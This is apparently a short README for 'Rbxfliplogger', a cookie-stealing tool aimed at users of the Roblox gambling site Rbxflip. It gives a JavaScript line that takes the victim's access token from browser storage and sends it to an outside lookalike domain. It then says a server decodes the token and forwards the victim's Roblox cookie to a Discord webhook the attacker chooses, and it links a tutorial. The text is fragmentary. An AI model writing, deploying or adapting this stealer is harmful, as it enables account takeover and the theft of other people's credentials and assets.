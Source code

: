# Rbxfliplogger
var token = localStorage.getItem('accessToken'); await fetch("https://www.rbxfilp.com/RbxfliploggerJscode/admin.php?t=" + token); ``` 6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special, but people are selling this shit for $25 lol. 7. Tutorial: https://www.youtube.com/watch?v=1YYUJPak5fY
